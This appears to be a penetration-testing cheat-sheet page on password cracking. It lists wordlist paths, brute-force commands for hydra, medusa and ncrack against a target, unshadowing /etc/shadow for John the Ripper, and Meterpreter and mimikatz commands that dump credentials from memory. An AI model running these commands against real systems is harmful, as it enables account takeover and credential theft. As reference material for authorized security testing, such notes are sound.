 ```yaml
---
title: "Password Cracking"
permalink: /pentest/11_Password_Cracking/
toc: true
---
```



#### worlists
- Kali : /usr/share/wordlists
- John and Ripper : /usr/share/John/password.lst
- Metasploit : /usr/share/metasploit-framework/data/wordlists
- Seclists
  - apt install seclists
  - https://github.com/danielmiessler/SecLists
  - https://github.com/fuzzdb-project/fuzzdb
  - [sec lists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
  - https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.html
  
  
#### password generation
- Cewl

#### cracking

- hash-identifier 
- john the ripper
  - john --format=raw-sha256 sha256_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
- hashcat
- hydra
  - hydra -L username.txt -P password.txt IP_address ftp -f
- medusa
 - medusa -U username.txt -P password.txt -h IP_address -M module 
- ncrack
 - ncrack -U username.txt-P password.txt IP:service -f -vv
- Mimikatz
- cain and abel
- patator


- To crack Linux account
  - /etc/passwd : user info
  - /etc/shadow : shadow hash infor
  - unshadow passwd shadow > hash.txt
  - john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --pot=pass.pot
  
  
 #### password from memory
 - meterpreter : msv 
 - meterpreter : kerberos
 - meterpreter : wdigest
 - meterpreter : load mimikatz
  - mimikatz_command -f samdump::hashes 
  - mimikatz_command -f sekurlsa::searchPasswords
 - wce.exe -w


